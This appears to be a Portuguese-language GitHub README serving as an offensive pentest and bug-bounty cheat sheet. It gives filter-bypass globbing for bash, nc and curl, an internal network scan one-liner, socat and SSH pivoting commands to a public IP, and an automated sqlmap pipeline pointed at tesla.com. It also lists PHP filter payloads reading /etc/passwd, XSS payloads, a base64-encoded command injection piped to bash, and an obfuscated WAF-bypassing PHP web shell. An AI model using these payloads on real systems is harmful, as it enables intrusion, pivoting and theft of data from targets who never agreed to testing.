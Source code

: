 # Bugbounts-ferramentas-e-tutoriais

Esse script baixa as ferramentas mais utilizadas em pentest e bounts, cria arquivos txt passando como usa cada uma, e ainda baixa wordlists mais atuais de parâmetros, dns, diretorios e etc...
<h1>Bypass de bash use a imaginação, aqui está alguns exemplos</h1>
/bin/b??? -p || /bi?/b??? -p = bash</br>
/bin/ne?c?t || /bi?/ne?c?t = nc </br>
/bin/p?t?o?3 || /bi?/p?t?o?3 = python3</br>
/bin/p?t?o?2 || /bi?/p?t?o?2 = python2</br>
/bin/c??l || /bi?/c??l = curl </br>
/bin/w??t || /bi?/w??t = get</br>

<h1>Para fazer um scan na rede do alvo procurando novos ips internos ativos com portas abertas</h1>
route|awk '{print $1}'|grep [[:digit:]] || ip route list |awk '{print $1}'|grep [[:digit:]];echo -e "\e[1;41;1;45mColoqueo ip assim -----> 172.0.0. tire o ultimo numero\e[0m" ;echo -en "Escolha o ip e coloque aqui -->: ";read num ; for i in $(seq 1 255);do ping -W 1 -c 1 $num$i | grep '64 bytes' | awk {'print $4'} | sed 's/.$//g';done > ipvalidos.txt ;for a in $(cat ipvalidos.txt);do nc -nv -w 1 -z $a 80 443 22 21 3306 25 445 139;done
</br>
<h2>Dowlonad do socat para o pivoting</h2>

Comand = wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat;chmod +x socat ;./socat -h

Tutorial = https://deephacking.tech/pivoting-con-socat/
</br>
Uso= ./socat tcp-l:7878,fork,reuseaddr tcp:172.16.0.147:80 &


<h2>Pegando params para sqli</h2>

pegando target das url: 

subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls.txt

filtrando potenciais sqli: 

cat urls | gf sqli | tee -a sqli.txt
</br>
gf = (ssrf,xss,ssti,sqli,redirect,rce,lfi,jsvar,interestingsubs,insterestingparams,interestingEXT,ido,dbug)

jogando para sqlmap:

while read line; do sqlmap -u $line --parse-erros --current-db --invalid-logical --invalid-bignum --invalid-string --riks 3;done < sqli.txt

<h1>Filters PHP</h1>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd</br>
php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=</br>
php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=</br>
php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala</br>
php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd</br>
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd</br>

<h1>Git exposed credentias com regex</h1>
/ssh:\/\/.*:.*@.*target\.com/</br>
/ftp:\/\/.*:.*@.*taget\.com/</br>
/ssh:\/\/.*:.*@.*\.com/ NOT "git"</br>

<h1>Log ssh pivoting rota interna </h1>
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i ./id_rsa -R 8888:10.0.1.2:80 -N teste@103.106.0.2 &
</br>
<h2>Paylad xss bons</h2>
%22%20onbeforeinput=alert(document.domain)%20contenteditable%20alt=%22
</br>
data%3Atext%2Fhtml%3Bbase64%2CPGltZyBzcmM9eCBvbmVycm9yPWphdmFzY3JpcHQ6cHJvbXB0KGRvY3VtZW50LmRvbWFpbik%2B
<h1>Insert no download.php</h1>
</br>
;echo%20Y2F0IC9ldGMvcGFzc3dkCg==|base64%20-d|bash%00.zip | grep root:.*:0:0

<h1>Bypass Waf shell php </h1>
</br>
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
</br>

